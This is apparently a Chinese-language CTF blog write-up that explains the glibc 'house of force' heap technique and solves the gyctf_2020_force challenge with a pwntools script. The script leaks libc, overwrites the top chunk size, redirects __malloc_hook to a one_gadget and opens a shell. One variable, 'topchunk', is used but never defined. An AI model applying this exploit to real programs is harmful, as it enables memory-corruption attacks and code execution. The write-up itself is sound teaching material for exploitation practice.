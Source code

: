 ```yaml
---
title: 一道题学习house of force
date: 2020-05-9 23:49:56
tags: pwn
---
```

house of force攻击手段是通过操作top chunk来进行利用的<!--more-->  
top chunk是作为备用的堆空间，当需要申请chunk时，所有bins中的chunk都满足不了所需的size时，就会从top chunk中切割一块chunk出来返回给用户。  
贴上源码  
```cpp  
victim = av->top;
size   = chunksize(victim);
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
{
    remainder_size = size - nb;
    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head(remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```  
👴看不懂，也懒得看，直接解释  
首先会检查申请的size，top chunk够不够给，如果够，就会把原先top chunk的head，变成新申请的chunk的head，并且以新申请的size为offset，把top chunk推到新的位置  
house of force就是通过把top chunk推到任意位置，来控制目标内存  
而且通过malloc不同的size，我们既可以把top chunk推到更高的地址，也可以把它送到更低的地址  
我们的利用思路可以简单概括为，将top chunk的size改为-1，然后-1就会被解释为一个大数，然后可以使得所有64位值都能通过验证  
## gyctf_2020_force  
这题就是通过house of force来做  
首先分析下函数  
![](force1.png)
![](force2.png)
只有add一个功能，puts是空壳函数  
程序在申请chunk后，会打印出chunk的地址，那么我们申请一个大块的空间，系统就会用mmap分配，mmap分配的这块区域在libc下方，偏移是固定的，我们就可以算出libc_base  
然后不管申请多大的chunk，都能读入0x50，那这里就存在溢出，我们通过这个溢出，把top chunk的size改为0xffffffffffffffff，那我们就可以申请很大的size了，我们申请一个size为malloc_hook何top chunk之间的偏移的chunk，那么就能将top chunk推到malloc_hook附近  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './gyctf_2020_force' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("node3.buuoj.cn",26629)
elf=ELF(binary)
libc=elf.libc
def add(size,content):
    p.recvuntil("puts")
    p.sendline("1")
    p.recvuntil("size")
    p.sendline(str(size))
    p.recvuntil("content")
    p.send(content)
def exp():
    p.recvuntil("puts")
    p.sendline("1")
    p.recvuntil("size")
    p.sendline(str(2000000))
    p.recvuntil('bin addr ')
    addr = int(p.recv(14),16)
    print hex(addr)
    libc_base = addr + 0x1e8ff0
    log.success("libc_base==>" + hex(libc_base))
    #gdb.attach(p)
    malloc_hook = libc_base + libc.sym['__malloc_hook']
    log.success("malloc_hook==>" + hex(malloc_hook))
    realloc = libc_base + libc.sym['realloc']
    one_gadget = libc_base + 0x4526a
    p.recvuntil("content")
    p.send("a")
    payload = p64(0)*5 + p64(0xffffffffffffffff)
    p.recvuntil("puts")
    p.sendline("1")
    p.recvuntil("size")
    p.sendline(str(0x20))
    p.recvuntil('bin addr ')
    heap_base = int(p.recv(14),16) - 0x10 + 0x30 #加上0x30就到了top chunk的位置
    print "heap_base:" + hex(heap_base)
    p.send(payload)
    size = (malloc_hook -0x20) - (topchunk+0x10) #需要realloc调整栈帧，所以申请malloc_hook-0x20
    print size
    gdb.attach(p)
    add(size,"aa")
    pause()
    add(0x20,'a'*8+p64(one_gadget)+p64(realloc+16))
    p.recvuntil("puts")
    p.sendline("1")
    p.recvuntil("size")
    p.sendline(str(0x10))
    #gdb.attach(p)
    p.interactive()
exp()
```  
参考链接:   
https://bbs.pediy.com/thread-222924.htm  
https://www.anquanke.com/post/id/175630  
